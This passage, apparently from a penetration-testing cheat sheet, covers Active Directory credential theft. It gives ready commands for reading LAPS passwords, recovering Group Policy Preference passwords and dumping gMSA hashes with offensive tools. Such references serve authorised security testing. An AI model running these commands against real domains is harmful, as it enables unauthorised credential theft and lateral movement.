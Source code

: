 	- \([CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\): `crackmapexec smb <target ip> -u <username> -H <NTLM> -M laps`
- 4\. Authenticate locally \(\.\\admin\) to the target system with the associated LAPS account and specify the returned LAPS password\. 

#### _Stored Group Policy Registry Preference Passwords:_
- Retrieves password from Autologon entries that are pushed through Group Policy Registry Preferences \([Get\-GPPAutologon\.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPAutologon.ps1)\): `Get-GPPAutologon`
- Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences \(use '\-Server' for remote retrieval\) \([Get\-GPPPassword\.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)\): `Get-GPPPassword (-Server <FQDN target system>)`

#### _Attacking AD Group Managed Service Accounts \(gMTA\):_
In Active Directory, Group Managed Service Accounts \(gMSA's\) have their passwords stored in a LDAP property called msDS\-ManagedPassword which automatically get resets by the DC’s every 30 days\. These passwords are retrievable by authorized administrators and by the servers who they are installed on\. msDS\-ManagedPassword is an encrypted data blob called MSDS\-MANAGEDPASSWORD\_BLOB and it’s only retrievable when the connection is secured\. It is a common vulnerability that gMSA have more privileges than they should have and sometimes other AD groups can read the msDS\-ManagedPassword property\.
>To successfully exploit this vulnerability, it is mandatory to either coerce a NTLM authentication request over HTTP from a privileged system or have control over an account with high enough privileges to read the msDS\-ManagedPassword property\.
- 1\. Dump gMSA passwords: 
	- Extract GMSA NT hash \([GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)\): `GMSAPasswordReader.exe --accountname <target GMSA account>`
	- Dump the gMSA password blobs and parse the value to a NTLM hash \(the user must have enough privileges to do this\) \([gMSADumper](https://github.com/micahvandeusen/gMSADumper)\): `python3 gMSADumper.py -u <usename> -p <password or NTLM hash> -d <FQDN> -l <FQDN target DC>`
- 2\. Use the compromised NTLM hashes \(if enough privileges\) or exploit available Unconstrained or Constrained delegation rights\. 



